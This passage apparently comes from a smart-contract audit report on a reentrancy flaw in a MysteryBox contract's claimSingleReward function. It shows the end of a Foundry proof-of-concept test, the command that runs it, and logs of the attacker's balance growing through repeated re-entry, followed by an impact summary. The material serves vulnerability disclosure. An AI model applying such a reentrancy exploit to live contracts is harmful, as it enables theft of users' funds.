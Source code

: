 ```javascript

        // Ensure the exploit increased the attacker's balance
        assert(finalBalance > initialBalance);

        vm.stopPrank();
    }
}
```

* Run: `forge test --match-contract ReentrancyExploit2 -vvv`

* Output Logs:

```javascript
[INFO]  Anvil running on http://127.0.0.1:8545 with chain id 1
[INFO]  Deploying contracts...
MysteryBox contract deployed and attacker funded
Attacker bought 3 boxes
Attacker opened 3 boxes
Attacker received 3 rewards
Initial Balance of Attacker: 700000000000000000  // 0.7 Ether
Re-entering claimSingleReward
Re-entering claimSingleReward
Re-entering claimSingleReward
claimSingleReward executed successfully
Final Balance of Attacker: 1200000000000000000  // 1.2 Ether
[INFO]  All contracts deployed
```

Explanation of the Logs:

* Contract Deployment: Logs display the deployment of the MysteryBox contract and the attacker's initial funding.
* Box Transactions: Logs confirm that the attacker bought and opened three mystery boxes.
* Rewards Confirmation: Logs verify that the attacker received multiple rewards.
* Balance Logs: Initial and final balance logs of the attacker's address to show the financial impact.
* Reentrancy Occurrence: Logs indicating the
  claimSingleReward function was re-entered multiple times, exploiting the vulnerability.
* Exploit Confirmation: Confirmation of the exploit's execution, highlighting the significant balance increase due to the reentrancy attack.

## Impact

* Financial Loss: The attacker can drain a substantial amount of Ether from the contract, causing financial loss.
* Loss of User Trust: Users might lose trust in the platform due to security vulnerabilities.
* Operational Disruption: Draining of contract funds could lead to operational disruptions and potential insolvency of the contract.

## Tools Used

* Foundry
